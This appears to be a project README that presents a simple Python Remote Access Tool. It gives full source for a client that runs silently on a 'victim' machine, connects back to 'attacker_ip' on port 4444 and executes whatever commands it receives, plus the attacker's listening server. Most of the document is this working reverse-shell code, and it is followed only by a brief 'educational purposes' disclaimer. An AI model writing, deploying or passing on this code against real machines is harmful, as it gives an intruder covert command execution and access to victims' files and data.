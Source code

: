 
## Overview
A **Remote Access Tool (RAT)** is used to control a target machine remotely.  
In simple terms:
- Allows the attacker to execute commands on the target system.
- Can download/upload files and access sensitive data.
- Runs silently in the background, making detection difficult.

## How It Works
The project consists of two programs:

### **1. Client.py (Victim's Machine)**
- This script runs silently on the victim’s computer.
- It continuously attempts to connect to the attacker’s machine.
- Once connected, it waits for and executes commands sent by the attacker.

```python
import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if __name__ == "__main__":
    main()
```

### **2. Server.py (Attacker's Machine)**
- The attacker runs this script to control the victim’s machine.
- It listens for incoming connections and executes commands remotely.

```python
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 4444))  # Bind to all available interfaces on port 4444
    s.listen(1)
    print("Waiting for connection...")
    conn, addr = s.accept()
    print(f"Connected to {addr}")
    while True:
        command = input("Enter command: ")
        conn.send(command.encode())
        if command.lower() == "exit":
            break
        output = conn.recv(4096).decode()
        print(output)
    conn.close()

if __name__ == "__main__":
    start_server()
```

## Disclaimer
🚨 **This project is intended for ethical cybersecurity research and educational purposes only. Unauthorized use or deployment of such tools may violate laws and regulations. Use responsibly.**


